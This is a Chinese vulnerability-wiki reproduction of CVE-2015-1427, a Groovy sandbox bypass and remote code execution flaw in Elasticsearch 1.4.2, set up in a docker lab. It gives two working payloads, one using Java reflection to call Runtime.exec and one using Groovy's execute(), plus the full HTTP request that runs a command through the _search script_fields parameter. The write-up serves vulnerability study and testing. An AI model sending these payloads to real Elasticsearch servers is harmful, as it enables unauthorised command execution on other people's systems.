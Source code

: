 （CVE-2015-1427）ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞
==============================================================

一、漏洞简介
------------

CVE-2014-3120后，ElasticSearch默认的动态脚本语言换成了Groovy，并增加了沙盒，但默认仍然支持直接执行动态语言。本漏洞：1.是一个沙盒绕过；
2.是一个Goovy代码执行漏洞。

二、漏洞影响
------------

elasticsearch版本：v1.4.2

三、复现过程
------------

### Groovy语言"沙盒"

ElasticSearch支持使用"在沙盒中的"Groovy语言作为动态脚本，但显然官方的工作并没有做好。lupin和tang3分别提出了两种执行命令的方法：

1.  既然对执行Java代码有沙盒，lupin的方法是想办法绕过沙盒，比如使用Java反射

2.  Groovy原本也是一门语言，于是tang3另辟蹊径，使用Groovy语言支持的方法，来直接执行命令，无需使用Java语言

所以，根据这两种执行漏洞的思路，我们可以获得两个不同的POC。

Java沙盒绕过法：

    java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText()

Goovy直接执行命令法：

    def command='id';def res=command.execute().text;res

### 漏洞复现

编译及运行测试环境

    docker-compose build
    docker-compose up -d

由于查询时至少要求es中有一条数据，所以发送如下数据包，增加一个数据：

    POST /website/blog/ HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25

    {
      "name": "test"
    }

然后发送包含payload的数据包，执行任意命令：

    POST /_search?pretty HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/text
    Content-Length: 156

    {"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2015-1427)ElasticSearchGroovy沙盒绕过&&代码执行漏洞/media/rId26.png)

参考链接
--------

> https://vulhub.org/\#/environments/elasticsearch/CVE-2015-1427/
